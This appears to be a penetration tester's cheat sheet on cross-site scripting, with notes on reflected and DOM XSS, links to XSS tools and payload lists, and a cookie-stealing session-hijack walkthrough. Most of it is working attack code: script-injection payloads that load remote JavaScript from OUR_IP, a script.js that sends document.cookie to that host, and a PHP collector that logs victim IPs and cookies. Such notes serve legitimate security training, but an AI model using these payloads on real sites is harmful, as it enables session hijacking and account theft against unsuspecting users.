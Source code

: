 
Reflected XSS: Sends the input data to the backend. 
`http://test:45960/index.php?task=test`

DOM XSS: Completely processed on the client-side through Javascript.  `http://test:33537/#task=test`

```
<img src="" onerror=alert(document.cookie)>

<script>print()</script>
```


# Tools
https://github.com/s0md3v/XSStrike
https://github.com/rajeshmajumdar/BruteXSS
https://github.com/epsylon/xsser


# Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

https://github.com/payloadbox/xss-payload-list

## Session Hijacking
Make user to click the link and steal the cookie.
Search for the right payload
Create index.php 
Create script.js
Set up php server that host index.php 
Update script.js
Set up the payload so that it will redirect to script.js. The script.js will load index.php.

Blind XSS detection - Usually by certain users only. 
	Contact Forms
	Reviews
	User Details
	Support Tickets
	HTTP User-Agent header

Test with those. 
```
<script src="http://OUR_IP/script.js"></script>
<script src="http://OUR_IP/username"></script>
```

script.js
```

##Update

new Image().src='http://OUR_IP/index.php?c='+document.cookie;

document.location='http://OUR_IP/index.php?c='+document.cookie;
```

Load a Remote script.js
```

# Serve the script and plug in to the target
$ mkdir /tmp/tmpserver
$ cd /tmp/tmpserver
$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started

```

XSS Sample - find a remote script
```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Create index.php
```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```